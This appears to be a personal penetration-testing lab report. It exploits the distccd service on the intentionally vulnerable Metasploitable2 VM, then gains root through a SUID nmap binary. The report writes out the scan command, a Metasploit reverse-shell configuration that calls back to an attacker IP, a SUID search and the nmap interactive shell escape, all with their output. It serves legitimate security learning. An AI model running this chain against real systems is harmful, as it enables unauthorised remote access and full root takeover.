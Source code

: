 # 🔟 Lab10 – distccd Exploit & SUID Nmap Privilege Escalation

My Red Team Journey – From Recon to Exploitation | Lab10 Report

---

##  Description

In this lab, we exploited the **distccd (Distributed C Compiler Daemon)** service running on Metasploitable2. After gaining a limited shell as the `daemon` user, we escalated privileges by abusing a vulnerable SUID binary (`nmap`) to obtain full **root access**.

---

##  Target System

| Component          | Info                      |
|-------------------|---------------------------|
| Target OS         | Metasploitable2           |
| IP Address        | `192.168.56.103`          |
| Attacker Machine  | Kali Linux (VBox)         |
| Attacker IP       | `192.168.56.102`          |

---

##  Exploitation Steps

###  1. Nmap Full Port Scan

```bash
nmap -p- -sV -T4 -oN fullscan.txt 192.168.56.103
Detected service:

3632/tcp open distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```


### 2. Remote Code Execution via distcc
```bash
msfconsole
use exploit/unix/misc/distcc_exec
set payload cmd/unix/reverse_perl
set RHOST 192.168.56.103
set RPORT 3632
set LHOST 192.168.56.102
exploit
```

 #### Privilege Escalation
### 3. SUID Binary Enumeration
```bash
find / -perm -4000 -type f 2>/dev/null
```

```bash
/usr/bin/nmap
```

### 4. Root Access via Nmap Interactive Mode
```bash

nmap --interactive
```

```bash
nmap> !sh
```

```bash
whoami
id
hostname
```

```makefile
root
uid=0(root) gid=1(daemon)
```


## Screenshots
lab10-nmap-scan.png: Full port scan showing distccd

lab10-metasploit-shell.png: Successful reverse shell from Metasploit

lab10-suid-nmap.png: SUID nmap binary found

lab10-root-shell.png: Root access confirmed via nmap interactive shell

## What I Learned
How to identify and exploit services like distccd

How to choose the right payload (Perl worked, Bash failed)

How to enumerate SUID binaries

How to leverage known tools (GTFOBins) for privilege escalation

The value of older software and misconfigurations in real-world pentests

